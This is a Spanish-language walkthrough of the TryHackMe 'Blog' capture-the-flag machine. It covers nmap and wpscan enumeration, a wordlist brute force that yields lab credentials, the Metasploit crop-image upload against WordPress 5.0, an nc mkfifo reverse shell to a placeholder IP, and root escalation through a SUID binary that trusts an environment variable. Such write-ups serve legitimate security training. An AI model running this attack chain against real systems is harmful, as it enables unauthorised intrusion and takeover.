









# Blog

## Índice

- [Setup](#setup)
- [Enumeration](#enumeration)
- [Gaining Access](#gaining-access)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

---

## Setup

El primer paso del reto es establecer conexión con la VPN de TryHackMe. Usaré openvpn para hacerlo — este es el comando:

```bash
sudo openvpn <vpn descargada de thm>
```

En la página de inicio de THM de la máquina nos dicen lo siguiente:

> In order to get the blog to work with AWS, you'll need to add `<IP MACHINE> blog.thm` to your `/etc/hosts` file. 

Esto significa que al iniciar la máquina deberemos introducir en nuestro archivo /etc/hosts la instrucción que nos proporcionan para que nos cargue correctamente la página.

## Enumeration

Una vez conectados al servidor de THM, podemos comenzar con la enumeración de la máquina víctima.

### 1. Nmap

Para escanear posibles puertos abiertos utilizaremos nmap. 



Ahora sabemos que los puertos abiertos son 22,80,139,445 para sus respectivos servicios.


Una vez hemos encontrado puertos abiertos, el siguiente paso, en nuestro caso, va a ser analizar más a fondo los puertos abiertos encontrados para obtener información sobre los servicios y versiones que tienen. Esto lo conseguimos con la siguiente instrucción:

**nmap -p22,80,139,445 -sCV 10.80.157.140**




Ya sabemos los servicios y versiones que corren en los puertos abiertos.

Observamos que el puerto 80 (http) nos muestra un WordPress(5.0).

Al ver esto, lo primero que he hecho es realizar un **wpscan** a la url.

WPScan es una herramienta de enumeración y análisis de seguridad específica para WordPress.

Conseguimos encontrar los siguientes usuarios:



Ahora, el siguiente paso que se me ocurre es aplicar fuerza bruta para obtener credenciales y poder loguearnos a WordPress con alguno de estos usuarios,y, a partir de ahí, averiguar como ganar acceso a la shell.

Si hacemos:

```bash
wpscan --url http://10.82.157.46/ --passwords /usr/share/wordlists/rockyou.txt
```

Conseguimos hacer fuerza bruta con wpscan y obtenemos las siguientes credenciales:

```
kwheel : cutiepie1
```

Conseguimos entrar a la cuenta de kwheel y podemos pasar a la siguiente fase para conseguir obtener acceso a la shell.

## Gaining Access

Habiendo conseguido iniciar sesión como kwheel, vamos a ver cómo conseguir acceso a la shell.

1. Vemos que la versión de WordPress es 5.0, por tanto, buscamos exploits para esta versión.

2. He encontrado un exploit en https://www.exploit-db.com/exploits/49512 pero no acababa de funcionarme, por tanto, decidí buscar en metasploit.

### 3. METASPLOIT

He buscado vulnerabilidades para WordPress 5.0 y he encontrado lo siguiente:



Vamos a usar la primera vulnerabilidad **Crop-image Shell Upload**.

La vulnerabilidad **Crop-image Shell Upload** en WordPress 5.0 permite a un atacante subir y ejecutar código PHP arbitrario en el servidor, lo que deriva en ejecución remota de comandos **(RCE)** y, en la práctica, compromiso total del sitio.

Podéis ver las opciones del exploit escribiendo `options`.

Hay que introducir lo siguiente:



(Poned bien la password, no hagáis como yo...)



Vemos que ha funcionado el exploit y podemos ejecutar comandos, por tanto, el siguiente paso sería el siguiente: 

### 4. Reverse Shell

Nos ponemos en paralelo en escucha a través del puerto 1234 (el que queráis, que no esté ocupado) y, aparte, desde meterpreter, vamos a ejecutar reverse-shell-php.

Podemos copiar la que más nos guste del siguiente link: https://www.revshells.com/

Yo he elegido nc mkfifo:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <TU_IP> 1234 >/tmp/f
```

(Cambiamos `<TU_IP>` por nuestra IP y el puerto por el que hemos elegido poner en escucha)




Lo primero que obtenía al pasar el código de la reverse-shell era una shell sin capacidad de interacción. Para arreglar esto, hemos realizado los siguientes pasos:

1. Arrancar una bash:
   ```bash
   script /dev/null -c bash
   ```

2. Hacemos `Ctrl+Z` para suspender el proceso e introducimos:
   ```bash
   stty raw -echo; fg
   ```
   Se utiliza después de obtener una reverse shell para arreglar la interacción del terminal y convertirla en algo más usable, parecido a una TTY real.

3. Configurar el terminal:
   ```bash
   export TERM=xterm
   ```
   Se usa para definir el tipo de terminal y corregir problemas de visualización y compatibilidad cuando trabajas en una shell remota.

Ahora si, estamos dentro. Vamos a por el siguiente paso, escalada de privilegios y obtener las flags.

## Privilege Escalation

Siendo www-data lo primero que he hecho ha sido ir a `/home` y meterme en `/bjoel` para ver la flag de `user.txt`... pero nos ha engañado y no la encontramos ahí.

He buscado permisos SUID con:

```bash
find . -perm /4000 2>/dev/null
```

Y he encontrado `/usr/sbin/checker`. 

Analizando este binario haciendo:

```bash
strings /usr/sbin/checker
```

He encontrado que:
- Usa `getenv("admin")` → confía en una variable de entorno
- Si la variable NO existe → imprime "Not an Admin"
- Si la variable SÍ existe → ejecuta `/bin/bash`

El binario es SUID root, por lo tanto:
- `setuid(0)` → root
- `/bin/bash` → root shell
- No valida el valor, solo la existencia

Por tanto, si ejecutamos:

```bash
admin=1 /usr/sbin/checker
```

Obtendremos una shell siendo root.


Ahora sí podemos ver la flag de root yéndonos a su directorio `/root/`.

Nos queda encontrar dónde está la flag de `user.txt`.

Tras buscar un poco cómo encontrar el archivo, lo he conseguido ejecutando:

```bash
find / -name "user.txt" 2>/dev/null
```

Estaba en `/media/usb`.

## Conclusion

Por último, el CMS que se utiliza es **WordPress 5.0**.

En mi opinión, me ha gustado esta máquina ya que se tocan varias cosas interesantes:

- Hemos trabajado con nmap, wpscan, metasploit...
- Hemos averiguado cómo elevar privilegios buscando permisos SUID
- Incluso había encontrado unas credenciales para acceder a la BBDD con mysql pero no me ha servido para nada porque no me encontraba la password hasheada de bjoel. 

 